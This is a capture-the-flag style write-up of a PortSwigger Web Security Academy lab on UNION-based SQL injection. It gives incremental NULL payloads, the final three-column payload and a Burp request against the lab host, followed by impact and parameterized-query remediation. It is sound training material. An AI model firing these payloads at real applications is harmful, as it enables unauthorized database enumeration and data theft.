


# Lab 07: SQL Injection UNION Attack, Determining the Number of Columns Returned by the Query

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Practitioner
- **OWASP Top 10:** A03:2021 – Injection
- **CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Author:** Yaseen Khan
- **Date:** November 23, 2026

---

## 1. Objective
Determine the exact number of columns returned by the underlying SQL query in the product category filter by injecting incremental `UNION SELECT NULL` payloads until the application returns a valid `HTTP 200 OK` response.

---

## 2. Reconnaissance & Column Enumeration
- **Target Endpoint:** `GET /filter?category=Gifts`
- **Vulnerable Parameter:** `category` (URL Query Parameter)

### Why `NULL` Probing Works
In SQL, a `UNION` query requires both `SELECT` statements to return the exact same number of columns with compatible data types. Because `NULL` is implicitly convertible to almost every SQL data type, incrementing `NULL` placeholders isolates the column count without triggering data-type mismatch errors.

### Iterative Testing Steps
1. `' UNION select NULL--` $\rightarrow$ returned **HTTP 500 Internal Server Error** (column count mismatch).
2. `' UNION select NULL, NULL--` $\rightarrow$ returned **HTTP 500 Internal Server Error** (column count mismatch).
3. `' UNION select NULL, NULL, NULL--` $\rightarrow$ returned **HTTP 200 OK**, confirming the original query returns **3 columns**.

---

## 3. Exploitation & Proof of Concept (PoC)

### Final Payload
```sql
' UNION select NULL, NULL, NULL--
```

## Modified HTTP Request (Burp Repeater)
```
GET /filter?category=Gifts' UNION select NULL, NULL, NULL-- HTTP/2
Host: 0aa0002c037baalf80ef629c00250089.web-security-academy.net
Cookie: session=[REDACTED]
```
## Proof of Exploitation Screenshots
1. Confirming 3 Columns (' UNION select NULL, NULL, NULL--):

2. Lab Completion Banner:


## 4. Impact
Identifying the exact column count of an underlying database query is the foundational prerequisite for UNION-based SQL injection, enabling an attacker to enumerate data types and exfiltrate arbitrary records from sensitive database tables.

## 5. Remediation
Primary Fix (Parameterized Queries): Use prepared statements with bound parameters so user-supplied values in the category filter are treated strictly as data rather than executable SQL syntax:
```
# Secure Python Parameterized Query Example
cursor.execute("SELECT * FROM products WHERE category = %s", (category,))
products = cursor.fetchall()
```
Error Handling: Configure generic error responses so database-level syntax or column-mismatch errors do not leak structural clues about backend queries.
